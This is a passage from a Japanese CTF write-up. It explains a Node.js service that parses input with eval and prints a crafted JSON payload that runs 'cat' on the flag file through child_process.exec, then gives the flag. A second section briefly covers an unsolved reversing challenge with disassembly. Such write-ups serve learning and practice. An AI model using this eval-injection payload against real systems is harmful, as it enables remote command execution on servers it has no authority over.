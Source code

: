 evalで入力をパースしているため、以下のように細工したJSONを送信することで、任意のコードを実行できてしまう。

    {"info": function() {
      var orig = Date.prototype.getTime;
      Date.prototype.getTime = function() {
        var util = require('util');
        var exec = require('child_process').exec;
        function a(error, stdout, stderr) {
          GLOBAL.__stdout = stdout;
          GLOBAL.__stderr = stderr;
        }
        exec("cat /home/commado/flag", a);
        return [GLOBAL.__stdout, GLOBAL.__stderr];
      };
      process.nextTick(function() { Date.prototype.getTime = orig; });
      return "time";
    }()}

Flagは「MACHOMAN」

最初はflagのパーミッションが間違っていて、rootしか読めないようになってしまっていたが
修正された。

### Who wrote this? (Misc 300)

    http://**/581cf9b214c109556fbb3cf74094dcded66baa17

解けなかった。

$ file 581cf9b214c109556fbb3cf74094dcded66baa17

    581cf9b214c109556fbb3cf74094dcded66baa17: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.9, not stripped

問題文のファイルを展開すると、ELFファイルが出てくる。

    08048374 <main>:
     8048374:       3c 03                   cmp    $0x3,%al
     8048376:       3c 08                   cmp    $0x8,%al
     8048378:       3c 05                   cmp    $0x5,%al
     804837a:       b7 08                   mov    $0x8,%bh
     804837c:       3c 07                   cmp    $0x7,%al
     804837e:       04 09                   add    $0x9,%al
     8048380:       04 09                   add    $0x9,%al
     8048382:       b7 08                   mov    $0x8,%bh
     8048384:       2c 0a                   sub    $0xa,%al
     8048386:       b0 08                   mov    $0x8,%al
     8048388:       2c 0b                   sub    $0xb,%al
     804838a:       3c 08                   cmp    $0x8,%al
     804838c:       b7 0b                   mov    $0xb,%bh
     804838e:       04 08                   add    $0x8,%al
     8048390:       2c 0c                   sub    $0xc,%al
     8048392:       3c 07                   cmp    $0x7,%al
     8048394:       1c 0c                   sbb    $0xc,%al

実行してもなにも起こらないコード

バイナリエディタで見てもよく分からなかった。
